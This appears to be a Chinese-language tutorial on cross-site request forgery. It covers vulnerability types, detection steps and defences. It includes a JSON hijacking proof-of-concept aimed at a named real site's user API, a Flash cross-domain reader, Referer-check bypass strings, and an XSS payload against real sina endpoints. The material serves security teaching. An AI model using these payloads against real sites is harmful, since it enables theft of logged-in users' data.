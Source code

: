 
## 一、跨站请求伪造漏洞
跨站请求伪造漏洞（Cross Site Request Forgery，常简写作CSRF，也有写作XSRF的）是指攻击者可以在第三方站点制造HTTP请求并以用户在目标站点的登录态发送到目标站点，而目标站点的应用程序未校验请求来源。  

## 二、漏洞的分类
CSRF漏洞从利用形式来看，分为“写”和“写-读”两类。  
#### 2.1 CSRF写——更改设置       
CSRF“写”是指攻击载体只需要发送HTTP请求的情况。   
这一类特征是Web应用程序在有登录态的情况下更改数据，是第三方站点只需要发送请求而不需要获得返回结果。如更改个人资料、发表文章、留言等，最简单的就是利用JavaScript 自动提交表单，很容易造成蠕虫攻击，如下所示：  

![csrfch](../pictures/csrfch.png)  

假设这个页面在 http://hacker.com 上，第一个点击打开页面的人自动发了一条心情，他的好友看到了进而又点击链接进入了恶意站点，导致不断地传播开来，造成蠕虫。   

如果是 get 请求可以触发的csrf，利用方式可以在一个正常的网站上插入一张图片（src 即存在漏洞cgi 地址），当别人浏览到这个页面时就会触发请求。  

#### 2.2 CSRF写和读——获取敏感信息
CSRF“写-读”是指攻击载体不仅要先发送HTTP请求，还要获取Web应用程序对该请求的返回内容的情况。  
这一类特征是Web应用程序在有登录态的情况下会输出敏感信息，第三方站点需要发送请求并还要获得返回结果，比如 JSON Hijacking和flash装载网页。  
JSON（JavaScript Object Notation）是一种轻量的数据交换格式，特别是在跨域交换数据的时候经常用到。一个简单的 jsonHijacking 利用 exp 如下：  
``` html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <title></title>
</head>

<body>
  <script type="text/javascript">
            var aaa="";
            function testa(str)
            {
              aaa=str;
            }
  </script>
  
  <script src="http://passport.iqiyi.com/apis/user/info.action?authcookie=&fields=
      userinfo%2Cqiyi_vip%2Cpps%2Caccounts%2Ctokens%2Cv&antiCsrf=&callback=testa" type="text/javascript">

  </script>
 
  <script type="text/javascript">
    alert(JSON.stringify(aaa));  //可以进一步把数据发往攻击者的站点
  </script>
  
</body>
</html>
```
另外一个地方是Flash。  
Flash的API 支持加载网页内容，如ActionScript 3.0提供的URLLoader类。但Flash装载站点内容必须得到站点根目录下的策略配置文件  crossdomain.xml的支持。如以下代码去读取www.example.com的返回内容（当然需要 http://www.example.com/crossdomain.xml 支持  flash所在域请求）：  
``` actionScript
import flash.net.*;
var myloader = new URLLoader(new URLRequest("http://www.example.com/"));
myloader.addEventListener(Event.COMPLETE,test);
myloader.load();
function test(event:Event){
var ResponseText:String = myloader.data;
text1.text = ResponseText;
stop();
}
```
如果该网页在用户登录态下会返回敏感信息，则这个flash可以获取到。  

## 三、如何检测漏洞
1. 抓包重放  
点击某功能后，使用抓包工具抓包重放，看正常返回值  
2. 去除refer/token  
去除refer/token参数，看返回值是否正常  
3. 验证  
如果正常，本地构造表单测试能否复现   
 
jsonhijacking 形式的也许可以尝试下自动测试，比如cookie 中带uin 字段的，带上refer/去掉refer 都请求一次接口，看返回内容中是否都包含了uin 的值，或者若是根据其他参数key 如 g_tk 来做限制的，可以把g_tk 值去掉，看请求是否也返回敏感信息了。  

## 四、如何防御
1. 检查 http referer 是否是同域  
如果网站有客户端，需要对此开绿灯，可能是个隐患。  
注意：ajax 跨域发起请求时是不可以添加 cookie、user-agent、referer、 x_forward_for 等http 头的，可以看下w3c给出的一份头部黑名单。否则 referer 校验就无效了。  
此外在某些情况下，浏览器也不会发送referer，比如从https 跳转到 http；flash 的请求等。  

2. 限制 cookie 的生命周期（减少发生概率）

3. 使用一次性 token
token 是一段随机的数字字母值，经常出现在表单的隐藏项中。  

4. 使用验证码（降低用户体验）  
当同域页面上有xss 漏洞时，可以通过 ajax 获取到其他页面的 token；    
token 如果出现在 get 参数中，也容易通过 refer的方式泄露；    
此时只能通过验证码来防范csrf 了。    

5. 如果是会修改内容的请求，请使用post 请求，且在满足post 内容格式要求的情况下使用`Content-Type:application/json`，而当不同源客户端添加 `Content-Type`为 `application/json` 的时候浏览器会进行预检（发送OPTIONS请求），之后请求就会失败（服务器不要在 `Access-Control-Allow-Headers` 中加入 `Content-type`），而不会进一步发起真实的post请求，否则可能造成其实数据已经被post请求修改，虽然服务器返回响应时被浏览器拦截了。    

## 五、测试tips 分享
绕过csrf 防御技巧：  
1. refer 验证绕过：只验证了是否存在关键词，如  
`Referer:http://t.qq.com `可以使用  
`Referer:http://t.qq.com.yourdomain.com`  
`Referer:http://yourdomain.com/t.qq.com/`  
`Referer:http://yourdomain.com?r=http://t.qq.com`  
注：从https域下post数据到http域的时候，浏览器不带Referer；用 iframe 加载时也不带referer；比如本地html，还有某些伪协议远程调用时是没有referer的；   
2. 有时候存在token, 服务器端不一定做了验证，可以直接把 token 参数删除看是否能返回正常值；  
3. 将 post 请求换成对应的 get 请求，也许也可以绕过 refer 限制；  
4. 找到一个满足refer要求的站点的url 跳转漏洞绕过refer 校验。
5. 利用xss 漏洞绕过refer 校验，如下payload 绕过了 data_ajax.php 的refer 校验  
```
http://interface.sina.cn/yuedu/index_feed.d.json?page=1&act=more&jsoncallback=<script>function a(msg){alert(msg.data.login_info.username);}</script><script src="http://xx.sina.com.cn/data_ajax.php?_a=top_data&rnd=16721&callback=a"></script>
```
**注意**：
1. 从页面`document.referer` 获取的是当前页面的上一跳，而发起http 请求带的referer头 是指的当前发起请求时所在的页面
2. 从浏览器页面发起的请求，自动带上referer和origin等头部（默认值），但如果抓包拦截是可以修改的（无法作为自动化攻击手段）；直接从服务器后台发起的请求，更是可以任意添加头部和值，且返回内容直接给到服务器后台，故也不存在浏览器的跨域策略限制等。

## Reference
[OPTIONS 请求预检](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)    
